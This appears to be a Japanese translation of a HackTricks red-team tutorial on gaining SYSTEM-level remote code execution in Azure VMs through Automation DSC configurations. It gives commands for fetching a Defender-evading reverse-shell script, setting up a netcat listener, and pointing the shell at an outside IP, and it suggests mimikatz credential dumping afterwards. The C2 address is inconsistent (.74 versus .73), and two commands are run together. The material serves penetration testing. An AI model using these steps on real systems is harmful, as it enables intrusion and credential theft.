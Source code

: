 # Az - State Configuration RCE

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**してください。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有してください。

</details>

**この投稿は** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe) **からコピーされました**

### リモートサーバー（C2）インフラの準備 <a href="#f0fa" id="f0fa"></a>

リモートサーバー「40.84.7.74」、つまりKaliボックスから、NishangのInvoke-PowerShellTcp.ps1ペイロードの簡易版をホストします。ペイロード名は「RevPS.ps1」です。NishangスクリプトがWindows Defenderによって何らかの理由で削除されないように（もしかするとファイルをディスクにドロップしたいかもしれません）、Defenderを回避することができる軽量版がこちらにあります：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1)。これはKaliボックス上のシンプルなPython Simple Serverによってホストされます。

### ステップ1 — ファイルの作成 <a href="#89de" id="89de"></a>

別のDSC構成ファイルを作成する必要があります。テンプレートはこちらからダウンロードできます：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)。この構成ファイルは、以前使用した同じファイル書き込み機能を使用します。今回は、リモートサーバーからペイロードをダウンロードして実行するコードが含まれています。また、_ComputerManagementDsc_ モジュールから利用可能なスケジュールタスク機能を使用しています。スケジュールタスク機能は、後で実行とSYSTEM権限の取得において重要な役割を果たします。

VMに構成を公開するために使用されるスクリプトもダウンロードします。こちらにあります：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)。

これらのファイルはテンプレートとして機能します。**使用している変数名やパラメータを記入する必要があります**。これには、リソース名、ファイルパス、使用している外部サーバー/ペイロード名が含まれます。コード内のコメントを参照してください。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### ステップ2 — 構成ファイルの圧縮 <a href="#c2c2" id="c2c2"></a>

2つのファイルを作成したら、**「reverse\_shell\_config.ps1」** ファイルをzip圧縮して、ストレージアカウントに送信できるようにします
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### ステップ 3 — ストレージコンテキストの設定とアップロード <a href="#bed9" id="bed9"></a>

再度、私のストレージアカウントのコンテキストを設定します。これは既に完了しています。私はすでに '**azure-pentest**' という名前のコンテナを持っているので、ここに公開します：
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### ステップ 4 — Kali Box の準備 <a href="#20fb" id="20fb"></a>

Kali box では、PowerShell ペイロードを _wget_ で簡単に取得できます。生のリバースシェルスクリプトはこちらにあります: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)。
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

リバースシェルスクリプトを編集し、実行された際にWindows VMが接続先を知るために、私たちのパラメータを追加する必要があります。私の場合、以下を追加しました：
```
```
RevPShell -Reverse 40.84.7.73 443
```
### ステップ 5 — 設定ファイルの公開 <a href="#9ad6" id="9ad6"></a>

次に、設定ファイルを実行します。私は視覚的にわかりやすいようにデスクトップに公開するように設定していますが、ほぼどこにでも公開できます。数分後、リバースシェルスクリプトが公開されたことがわかります！

### ステップ 6 — ペイロードのホストとリスナーの設定 <a href="#c55f" id="c55f"></a>

設定を公開したら、ペイロードをホストするためにポート80でPython SimpleHTTPServerを同時に開始し、接続をキャッチするためにnetcatリスナーを設定します：
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
スケジュールされたタスクが実行され、私たちのペイロードが取得され、**SYSTEM** レベルの権限でメモリ内で実行されたことがわかります！

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### まとめ <a href="#1ec2" id="1ec2"></a>

これで多くの可能性が開かれました。**SYSTEM** としてシェルを持っているので、mimikatzを使ってクレデンシャルをダンプすることができます（クラウドリソースのEDRの成熟度によってはリスクがあるかもしれません）。クレデンシャルをダンプすると、これらが他のリソースで再利用できる可能性が高くなります。最後に、重要なポイントは、これを1つのVMに限定するのではなく、この設定を複数のVMに適用する可能性があるということです。

このノートで、Azure Automation DSCの冒険は終わりです！楽しんで、多くを学び、自分の創造性でさらに拡張していくことを願っています。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSのハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの**会社を広告したい、または**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**する。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
